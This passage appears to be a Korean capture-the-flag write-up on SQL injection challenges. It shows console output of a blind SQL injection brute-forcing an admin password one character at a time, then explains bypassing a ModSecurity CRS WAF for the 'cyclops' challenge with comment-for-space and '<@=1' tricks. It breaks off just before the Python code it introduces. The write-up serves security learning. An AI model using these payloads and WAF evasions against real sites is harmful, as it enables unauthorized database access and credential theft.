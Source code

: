 실행 콘솔
```
{'id': "'||left(id,4)='admi'&&left(pw,1)='0'#"}
{'id': "'||left(id,4)='admi'&&left(pw,1)='1'#"}
{'id': "'||left(id,4)='admi'&&left(pw,1)='2'#"}
{'id': "'||left(id,4)='admi'&&left(pw,1)='3'#"}
{'id': "'||left(id,4)='admi'&&left(pw,1)='4'#"}

...

{'id': "'||left(id,4)='admi'&&left(pw,7)='a18a6cb'#"}
{'id': "'||left(id,4)='admi'&&left(pw,7)='a18a6cc'#"}
find the pw  a18a6cc
{'id': "'||left(id,4)='admi'&&left(pw,8)='a18a6cc0'#"}
{'id': "'||left(id,4)='admi'&&left(pw,8)='a18a6cc1'#"}
{'id': "'||left(id,4)='admi'&&left(pw,8)='a18a6cc2'#"}
{'id': "'||left(id,4)='admi'&&left(pw,8)='a18a6cc3'#"}
{'id': "'||left(id,4)='admi'&&left(pw,8)='a18a6cc4'#"}
{'id': "'||left(id,4)='admi'&&left(pw,8)='a18a6cc5'#"}
find the pw  a18a6cc5
```


![image](https://user-images.githubusercontent.com/33647663/160249199-52f91039-d538-460c-9435-d051947f356c.png)



# 35번(cyclops)
## 문제

![image](https://user-images.githubusercontent.com/33647663/160249571-954c1cd6-e9e8-4614-8839-7c9a8966f6c4.png)

## 풀이
35번 문제는 개인적으로 정말 삽질을 많이 했습니다...; 
32,33,34,35번 까지 waf 우회문제를 풀면서 느낀점은 평소엔 sql injection을 할때 최소한의 데이터를 이용해서 풀려고 했었는데, waf 필터링을 우회하기 위해서는 정규표현식에 걸리지 않도록 같은 결과에 대해서 최대한 쓸데없는(?) 데이터를 덧붙여서 정규표현식에 걸리지 않도록 해야 했습니다. 

이번 cyclops에서 사용된 쓸데없는 기술은 2가지 였습니다.

1. id='' or 1 이렇게 하지말고, id=''<@=1 or 1 이렇게 하면 어차피 앞부분은 false이지만, CRS v3.1.0에서는 뒷 부분을 판단할때 영향을 미친다.

2. 공백을 그냥 쓰지 않고, /\*asdasd\*/ 이렇게 주석을 이용하여 공백을 해준다.

**여기서 중요한 점은 1번의 내용을 처음에 사용하지 않고 union select 부분에만 신경을 써서 시도를 했을때는 되지 않았고, 1번의 내용인 <@=1 이 부분이 쿼리문에 들어갔을때 waf의 우회가 되었습니다.** 

그리고 이번 문제를 풀때는 구글에 ```waf union select bypass```를 검색했더니, 여러 cheat sheet이 나와서 이 부분을 응용해서 쿼리를 작성해서 풀었습니다.

성공한 쿼리문들의 공통점은 union/**/select 처럼 공백 대신 주석을 사용하여 union select를 작성한 구문들 이었습니다.

해당 cheat sheet 내용을 포함한 python code는 다음과 같습니다.
